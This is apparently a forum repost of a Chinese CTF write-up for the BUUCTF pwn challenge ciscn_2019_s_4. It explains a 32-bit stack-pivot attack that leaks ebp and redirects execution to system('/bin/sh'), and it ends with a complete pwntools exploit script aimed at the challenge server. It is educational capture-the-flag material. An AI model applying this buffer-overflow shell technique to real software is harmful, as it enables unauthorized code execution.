





# [CTF] [栈迁移]ciscn_2019_s_4

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1823985
- 抓取时间: 2026-11-01T22:47:57

## 题目来源
`buuctf`——`ciscn_2019_s_4`

## 参考链接
https://blog.csdn.net/mcmuyanga/article/details/112462462

## 题目信息
32位、`ubuntu18`


1.png (28.98 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjYzNzcxMHxjMGEyMGZmYnwxNzkzNTczMjc0fDE2ODA4NnwxODIzOTg1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNzcxMHxjMGEyMGZmYnwxNzkzNTczMjc0fDE2ODA4NnwxODIzOTg1&nothumb=yes)
2023-8-21 23:22 上传

溢出点在`vul`函数中，溢出两次，均只能溢出两个机器字长。


2.png (27.75 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjYzNzcxMXxiZTA1YjkyMnwxNzkzNTczMjc0fDE2ODA4NnwxODIzOTg1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNzcxMXxiZTA1YjkyMnwxNzkzNTczMjc0fDE2ODA4NnwxODIzOTg1&nothumb=yes)
2023-8-21 23:22 上传

`hack`函数中给出了`system`函数，但是参数不对。


3.png (13.81 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjYzNzcxMnw0MTA3ODA4ZnwxNzkzNTczMjc0fDE2ODA4NnwxODIzOTg1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNzcxMnw0MTA3ODA4ZnwxNzkzNTczMjc0fDE2ODA4NnwxODIzOTg1&nothumb=yes)
2023-8-21 23:22 上传

可以直接使用`call system`。


4.png (55.36 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjYzNzcxM3wyNDUyNWNjOHwxNzkzNTczMjc0fDE2ODA4NnwxODIzOTg1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNzcxM3wyNDUyNWNjOHwxNzkzNTczMjc0fDE2ODA4NnwxODIzOTg1&nothumb=yes)
2023-8-21 23:22 上传

## 解题步骤
考虑使用栈迁移，先得到`ebp`的值，然后动态调试得到`ebp`距离栈参数`s`的距离，本题为`0x38`，这样就可以将栈偏移到`padding`中。

## 关键步骤
### 1、得到`ebp`距离栈参数`s`的距离
在`printf`处打断点，`0xffffd4c8-0xffffd490=0x38`


5.png (143.75 KB, 下载次数: 1)
[href="forum.php?mod=attachment&aid=MjYzNzcxNHwxYjE4NmFmMHwxNzkzNTczMjc0fDE2ODA4NnwxODIzOTg1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzNzcxNHwxYjE4NmFmMHwxNzkzNTczMjc0fDE2ODA4NnwxODIzOTg1&nothumb=yes)
2023-8-21 23:22 上传

### 2、接收`ebp`的地址值
由上图可得，`ebp`的地址不是以常见的`0xf7`为首的，因此需要自己打锚点，然后接收后四位，常用的`u32(r.recvuntil(b'\xf7')[-4:])`是抓不到的。

```python
payload = b'a'*0x24 + b'bbbb'
sd(payload)
ru("bbbb")
ebp_addr = u32(r.recv(4))

wp
```

```python
# -*- coding: utf-8 -*-

from pwn import*

context.log_level='debug'

context.arch='i386'

context.os = "linux"

pc = "./ciscn_s_4"

if __name__ == '__main__':
    local = sys.argv[1]
    if local == '1':
        r= process(pc)
        elf = ELF(pc)
        libc = elf.libc
    else:
        r=remote("node4.buuoj.cn",26327)
        elf = ELF(pc)
        libc = elf.libc

sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))

def db():
    gdb.attach(r)
    pause()

def dbs(src):
    gdb.attach(r, src)

leave_ret = 0x080484b8

system_plt = elf.plt['system']

system_call = 0x08048559

lg('system_plt')

payload = b'a'*0x24 + b'bbbb'
sd(payload)
ru("bbbb")
ebp_addr = u32(r.recv(4))
lg('ebp_addr')
buff = ebp_addr - 0x38
payload = (p32(system_plt)+p32(system_plt)+p32(buff+12)+b'/bin/sh\x00').ljust(0x28,b'a') + p32(buff-4) + p32(leave_ret)
#使用system_call可以不用接返回地址
#payload = (p32(system_call)+p32(buff+8)+b'/bin/sh\x00').ljust(0x28,b'a') + p32(buff-4) + p32(leave_ret)
sd(payload)
ti()
```
